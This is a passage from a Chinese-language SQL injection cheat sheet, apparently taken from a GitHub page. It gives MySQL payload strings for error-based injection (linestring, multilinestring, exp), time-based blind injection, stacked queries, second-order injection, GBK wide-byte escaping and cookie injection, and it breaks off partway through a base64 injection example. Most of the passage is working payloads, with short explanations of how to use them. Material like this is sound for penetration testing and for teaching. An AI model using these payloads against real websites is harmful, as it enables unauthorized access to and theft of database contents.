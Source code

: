 ```
id=1 and linestring((select * from(select * from(select user())a)b))
```

9 multilinestring()

```
id=1 and multilinestring((select * from(select * from(select user())a)b))
```

10 exp()

```
id=1 and exp(~(select * from(select user())a))
```

**时间注入**

```
id = 1 and if(length(database())>1,sleep(5),1)
```

**堆叠查询注入**

```
id = 1';select if(sub(user(),1,1)='r',sleep(3),1)%23
```

**二次注入**

假如在如下场景中，我们浏览一些网站的时候，可以现在注册见页面注册username=test'，接下来访问xxx.php?username=test'，页面返回id=22；

接下来再次发起请求xxx.php?id=22，这时候就有可能发生sql注入，比如页面会返回MySQL的错误。

访问xxx.php?id=test' union select 1,user(),3%23，获得新的id=40，得到user()的结果，利用这种注入方式会得到数据库中的值。

**宽字节注入**

**利用条件**：

- [ ] 查询参数是被单引号包围的，传入的单引号又被转义符()转义，如在后台数据库中对接受的参数使用addslashes()或其过滤函数
- [ ] 数据库的编码为GBK

**利用方式**

```
id = -1%DF' union select 1,user(),3,%23
```

在上述条件下，单引号'被转义为%5c，所以就构成了%df%5c，而在GBK编码方式下，%df%5c是一个繁体字“連”，所以单引号成功逃逸。

**Cookie注入**

当发现在url中没有请求参数，单数却能得到结果的时候，可以看看请求参数是不是在cookie中，然后利用常规注入方式在cookie中注入测试即可，只是注入的位置在cookie中，与url中的注入没有区别。

```
Cookie: id = 1 and 1=1
```

**base64注入**

对参数进行base64编码，再发送请求。

说明：id=1'，1的base64编码为`MSc=`，而`=`的url编码为`%3d`，所以得到以下结果：
